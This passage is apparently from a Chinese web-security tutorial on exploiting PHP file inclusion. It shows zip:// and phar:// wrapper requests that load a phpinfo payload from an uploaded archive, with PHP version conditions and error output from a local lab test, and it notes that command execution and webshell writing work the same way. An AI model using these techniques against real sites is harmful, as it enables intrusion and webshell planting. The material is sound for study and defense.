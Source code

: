 ```php
<?php phpinfo(); ?>
```

注意要指定绝对路径，若是使用相对路径，则会文件包含失败。一些别的利用条件等请看上面的`zip://`

```php
fileinclude2.php?file=zip://D:\phpStudy\PHPTutorial\WWW\J0.zip%23J0
```

则拼接后为：`zip://D:\phpStudy\PHPTutorial\WWW\J0.zip#J0/test/test.php`

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-2c4ba382f4b748c48063569d60b9f3a95ab42204.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-2c4ba382f4b748c48063569d60b9f3a95ab42204.png)

能成功包含。

##### 注意命令执行和写入木马

都是可以的，具体看`zip://`

#### 姿势二：利用phar伪协议

利用phar伪协议有限制条件：php版本大于等于php 5.3.4。我测试用了php版本为5.2.17，然后使用下面的绝对路径与相对路径的方式都会报错：

```php
Warning: include(phar://J0.zip\J0/test/test.php) [function.include]: failed to open stream: Invalid argument in D:\phpStudy\PHPTutorial\WWW\fileinclude2.php on line 3

Warning: include() [function.include]: Failed opening 'phar://J0.zip\J0/test/test.php' for inclusion (include_path='.;C:\php5\pear') in D:\phpStudy\PHPTutorial\WWW\fileinclude2.php on line 3
```

而以下能成功是因为我用的php版本为5.4.45。

还有一些别的利用条件等请看上面的`phar://`。

构造压缩包同上面姿势一相同

指定绝对路径：

```php
fileinclude2.php?file=phar://D:\phpStudy\PHPTutorial\WWW\J0.zip\J0
```

则拼接后为：`phar://D:\phpStudy\PHPTutorial\WWW\J0.zip\J0/test/test.php`

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c7a7caaceebb9092a221736a036a474c1006444b.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c7a7caaceebb9092a221736a036a474c1006444b.png)

能成功包含。

使用相对路径（这里`J0.zip`就在当前目录下，和`fileinclude2.php`同一目录）:

```php
fileinclude2.php?file=phar://J0.zip\J0
```

则拼接后为：`phar://J0.zip\J0/test/test.php`
